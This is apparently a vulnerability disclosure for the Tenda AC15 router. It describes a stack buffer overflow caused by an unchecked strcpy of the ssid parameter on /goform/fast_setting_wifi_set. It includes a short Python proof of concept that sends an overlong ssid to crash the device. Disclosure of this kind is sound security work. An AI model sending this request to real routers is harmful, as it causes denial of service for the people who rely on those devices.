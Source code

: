 # Tenda Router AC15 Vulnerability
This vulnerability lies in the `/goform/fast_setting_wifi_set` page which influences the lastest version of Tenda Router AC15_V15.03.05.19. (The latest version is [AC15_V15.03.05.19](https://www.tenda.com.cn/download/detail-2680.html))
## Vulnerability Description
There is a stack-based buffer overflow vulnerability in function `form_fast_setting_wifi_set`.

In function `form_fast_setting_wifi_set` it reads user provided parameter `ssid` into src`, and this variable is passed into function `strcpy` without any length check, which may overflow the stack-based buffer `s`.
![](https://github.com/Funcy33/Vluninfo_Repo/blob/main/CNVDs/AC15/216_1/vlun2.png)

So by requesting the page `/goform/fast_setting_wifi_set`, the attacker can easily perform a Deny of Service Attack.
## POC
```
import requests

IP = "10.10.10.1"
url = f"http://{IP}/goform/fast_setting_wifi_set?"
url += "ssid=" + "s" * 100

response = requests.get(url)
```
## Timeline
## Acknowledgment
Credit to [@Funcy_kilar](https://github.com/Funcy33) from Guangzhou University.
